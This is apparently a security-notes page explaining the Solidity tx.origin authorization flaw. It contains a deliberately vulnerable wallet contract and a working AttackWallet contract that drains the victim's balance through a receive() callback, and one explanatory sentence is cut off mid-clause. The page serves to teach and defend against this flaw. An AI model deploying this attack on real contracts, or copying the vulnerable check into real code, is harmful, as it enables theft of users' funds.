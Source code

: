 ```yaml
---
title: Solidity Tx Origin Attack
description: The Solidity 'tx.origin' should not be used for authorization e.g. when transferring ether to a wallet because tx.origin is the address of EOA (Externallly Owned Account) that the originated the transaction, not the address of caller for the function on the smart contract (this is msg.sender).
tags:
    - Blockchain
    - Ethereum
refs:
    - https://medium.com/coinmonks/solidity-tx-origin-attacks-58211ad95514
    - https://docs.soliditylang.org/en/develop/security-considerations.html#tx-origin
date: 2023-09-27
draft: false
---
```


## Inappropriate User Authorization

Reference: [https://docs.soliditylang.org/en/develop/security-considerations.html#tx-origin](https://docs.soliditylang.org/en/develop/security-considerations.html#tx-origin)

```js
// Vulnerable: comparing the contract owner with tx.origin
require(tx.origin == owner)

// Vulnerable: 
require(tx.origin == msg.sender)
```

### 1. Vulnerable Wallet

For example, the following wallet validates a user with `tx.origin == owner`. However, this `tx.origin` is vulnerable because `tx.origin` is not

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

contract VulnWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable _to, uint amount) public {
        require(tx.origin == owner);
        _to.transfer(amount);
    }
}
```

### 2. Implement Attack Wallet using the Vulnerable Wallet

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface VulnWallet {
    function transferTo(address payable _to, uint amount) external;
}

contract AttackWallet {
    address payable owner;

    constructor() {
        owner = payable(msg.sender);
    }

    receive() external payable {
        VulnWallet(msg.sender).transferTo(owner, msg.sender.balance);
    }
}
```